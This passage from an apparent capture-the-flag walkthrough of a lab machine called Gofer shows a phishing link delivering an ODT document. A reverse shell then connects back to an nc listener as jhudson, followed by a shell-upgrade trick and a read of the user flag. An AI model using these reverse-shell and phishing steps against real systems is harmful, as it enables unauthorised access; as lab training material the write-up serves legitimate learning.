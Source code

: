 I’ll update the link in my email and send it again:

![image-20231024212457644](https://0xdf.gitlab.io/img/image-20231024212457644.png)

There’s a request for the document at my server:

```
10.10.11.225 - - [26/Oct/2023 07:00:37] "GET /report.odt HTTP/1.1" 200 -

```

And then a reverse shell at listening `nc` as jhudson:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.225 53300
bash: cannot set terminal process group (1178586): Inappropriate ioctl for device
bash: no job control in this shell
bash: /home/jhudson/.bashrc: Permission denied
jhudson@gofer:/usr/bin$

```

I’ll [upgrade my shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q) with the standard trick:

```
jhudson@gofer:/usr/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
jhudson@gofer:/usr/bin$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
jhudson@gofer:/usr/bin$

```

And read `user.txt`:

```
jhudson@gofer:~$ cat user.txt
f387d527************************

```

## Shell as tbuckley

### Enumeration

#### General

The OS is Debian bullseye [as suspected](#nmap):
